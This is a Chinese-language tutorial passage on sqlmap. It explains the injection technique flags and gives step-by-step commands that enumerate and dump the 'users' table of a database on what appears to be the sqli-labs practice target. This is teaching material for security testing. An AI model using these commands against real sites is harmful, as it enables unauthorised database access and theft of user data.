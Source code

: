 **--batch**
<font color=#8470FF>
**默认运行** 
</font>

**--technique**  
<font color=#8470FF>

指定sqlmap使用的检测技术

* B:Boolean-based-blind  （布尔型型注入）

* E:Error-based   （报错型注入）

* U:Union query-based  （联合注入）

* S:Starked queries   （通过sqlmap读取文件系统、操作系统、注册表必须 使用该参数，可多语句查询注入）

* T:Time-based blind  （基于时间延迟注入）

</font>

`sqlmap -u "http://10.60.250.214/Less-1/?id=1" --dbs --batch --technique B`

![20](https://i.imgur.com/6EobR3x.png)

![19](https://i.imgur.com/ZzNnuBy.png)

### 获取表 ###

`sqlmap -u "http://10.60.250.214/Less-1/?id=1" -v 1 -D security --tables`

![22](https://i.imgur.com/RbMVkf4.png)

![21](https://i.imgur.com/yFC9jZD.png)

### 获取表的列名 ###

`sqlmap -u "http://10.60.250.214/Less-1/?id=1" -v 1 -D security -T users --columns`

![24](https://i.imgur.com/keAEMDi.png)

![23](https://i.imgur.com/mkkn61S.png)

### 获取表中数据 ###

`sqlmap -u "http://10.60.250.214/Less-1/?id=1" -v 1 -D security -T users --columns --dump`

![26](https://i.imgur.com/hclOrZ5.png)

![25](https://i.imgur.com/qrbRqfl.png)